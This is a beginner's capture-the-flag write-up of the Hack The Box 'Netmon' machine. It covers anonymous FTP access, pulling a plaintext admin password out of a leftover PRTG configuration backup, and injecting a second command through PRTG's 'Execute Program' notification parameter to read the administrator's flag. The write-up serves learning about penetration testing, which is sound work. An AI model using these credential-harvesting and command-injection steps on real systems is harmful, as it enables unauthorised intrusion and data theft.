


# Hack The Box
## Netmon

### Introduction
Task in Hack The Box consisit of two flags: user flag and owner flag, which corresponds to both user and admin level permission. This task, Netmon, is a very beginner level task that introduce us to the CTF world.

### User Flag -- Steps
1. Connecting to the machine, we can see the page is an PRTG monitor page, which has a login page.
    
1. Searching for default password, but failed.
    > Login Name: prtgadmin
    > Password: prtgadmin
1. After trying some SQL injections on the fields, seems the web portal does not have an injection bug. Has to try other ways. Lets see if it has any other openong ports:
    > # nmap -sV [netmon_ip]
    > Nmap scan report for [netmon_ip]
    > Host is up (0.31s latency).
    > Not Shown: 995 closed ports
    > PORT    STATE    SERVICE    VERSION
    > 21/tcp  open     ftp        
    > 80/tcp  open     http
    > ...
1. and we could see there is a ftp port open to us. Again, lets try anonymous account:
    > # ftp [netmon_ip]
    > Name: anonymous
    > 331 Anonymous access allowed, send identity (e-mail name) as password.
    > Password: (no password)
    > 230 User logged in.
    > ftp>
1. Great! Thanks to wrong configuration, anonymous account is accessible. and we can not get the user flag:
    > ftp> cd "Users/Public/"
    > ftp> ls
    > 200 PORT command successful.
    > ...
    > 02-03-19 12:35AM        33 user.txt
    > ...
    > ftp> get user.txt
1. There we are the flag for the user level.

### Admin Flag -- Steps
1. After er get the user flag, we could continue browse if we can access the admin flag also (you know, sometimes things works just like that):
    > ftp> cd "/Users/Administrator"
    > 550 Access is denied.
1. Okay, so it turns out to be not so easy. After searchong, I found there is a [post](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) talking about saving the password in plaintext in earlier versions of PRTG monitor. Therefore, I downloaded all the mentioned files:
    > ftp> cd "/ProgramData/Paessler/PRTG Network Monitor/"
    > ftp> get "Configurations/AutoBackups"
    > ftp> get "PRTG Configuration.dat"
    > ftp> get "PRTG Configuration.old"
    > ftp> get "PRTG Configuration.old.bak"
1. And Check them one by one. Well, most of them didn't show the password, seems the system upgraded. But looks like somebody does not remember to clean up the backup of the old configurations, and the password is in "PRTG Configuration.old.bak" file:
    > <dbpassword>
    >   <!-- User: prtgadmin -->
    >   PrTg@dmin2018
    > </dbpassword>
1. How nice they are to give us the username also! But sadly it is not an account for the ftp server. But we can notice that the username is same as default username of the web portal, so maybe that is an entrence. Shockingly, it happens also not to be the password. but we may twist that "2018" to be "2019", and it brings us to the inside.
    
1. But I don't know what should be used with this hack, so I search the web again. and I found another [post](https://www.codewatch.org/blog/?p=453) that tells that there is a place that we can do remote code execution:
  1. Go to "Setup>Account Settings>Notifications>new notification"
  1. Add new Notification with "Execute Program", set parameter to be exploit code:
      > test.txt; more c:\Users\Administrator\Desktop\root.txt > c:\output.txt
      
  1. save and return.
  1. Find a sensor that matches the requirement for sending a "notification" (in this case there is a always-down sensor which can let me set a "notify when down" rule)
  1. Add the newly added notification and wait for execute
      
  1. Then wait a while and there should be a log triggered telling us that the meal is ready.
      
1. After execute, fetch the file using ftp again, and we can now find the code.
    > ftp> ls
    > 200 PORT command successful.
    > ...
    > 02-03-19 12:35AM        33 output.txt
    > ...
    > ftp> get output.txt

### Conclusion
- This is my first time to do a CTF, so it is really challenging although the tasks are extremely easy. the road is still very long.
- We should learn that this is a sensor monitor/adminstrating panel, so executing a program would be a normal feature to have, and exploit code execution usually starts here.
- Of course, we should config to not use any default credentials, and close all unnessary ports to avoid any penetration.
- There are some cve posts on google giving exploit, I tried to use them but failed. mostly is because it needs a msfvenom host, which i don't know how to config. but there is still other way around.
- Thank you for reading till here. Hope you had fun!
